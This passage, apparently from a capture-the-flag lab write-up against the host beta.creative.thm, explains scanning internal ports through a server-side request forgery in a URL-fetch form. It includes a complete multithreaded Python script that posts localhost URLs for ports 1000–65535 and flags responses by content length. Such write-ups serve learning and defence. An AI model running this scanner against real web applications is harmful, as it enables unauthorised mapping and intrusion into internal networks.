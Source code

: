 The first 1000 ports didn't return any leads except for port 80 which we've seen earlier. 

The process was very slow with the burp community version, so i searched for alternatives and found this python script that can be used to loop through the 65000 ports in a blink

```python
import requests
import urllib.parse
from concurrent.futures import ThreadPoolExecutor

def send_post_request(url, payload, headers):
    try:
        response = requests.post(url, data=payload, headers=headers)
        content_length = response.headers.get('Content-Length')
        if content_length != '13':  # Check if content length isn't 13
            print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")
    except requests.exceptions.RequestException as e:
        print(f"Error sending POST request: {e}")

def main():
    base_url = "http://beta.creative.thm"
    headers = {
        "Host": "beta.creative.thm",
        "Content-Length": "38",
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://beta.creative.thm",
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8",
        "Sec-GPC": "1",
        "Accept-Language": "en-GB,en;q=0.9",
        "Referer": "http://beta.creative.thm/",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "close"
    }

    # Using ThreadPoolExecutor to run 20 threads concurrently
    with ThreadPoolExecutor(max_workers=20) as executor:
        for port_number in range(1000, 65536):
            url = f"http://localhost:{port_number}"
            payload = f"url=http%3A%2F%2Flocalhost%3A{port_number}"
            executor.submit(send_post_request, base_url, payload, headers)

if __name__ == "__main__":
    main()
```
_Explanation_

- The reason why it checked for a request that doesn't return a content length of 13 is that a non existent port/request returns 13 as its content length as seen in the captured request below
